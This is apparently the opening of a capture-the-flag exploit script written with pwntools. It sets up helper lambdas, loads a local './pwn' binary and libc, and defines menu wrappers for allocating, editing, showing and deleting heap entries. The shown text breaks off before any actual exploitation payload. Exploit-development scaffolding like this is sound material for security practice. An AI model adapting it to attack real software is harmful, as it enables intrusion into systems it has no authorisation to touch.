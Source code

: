 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

def menu(opt):
    sla('>>',str(opt))

def add(size,data):
    menu(1)
    sla(b"input your name size",str(size))
    sla(b"input your name",data)

def delete(index):
    menu(4)
    sla(b'input index\n',str(index))

def show(index):
    menu(3)
    sla(b'input index\n',str(index))

def edit(index,size,name):
    menu(2)
    sla(b'input index',str(index))
    sla(b'input your name size',str(size))
    sa(b'input your name',name)

```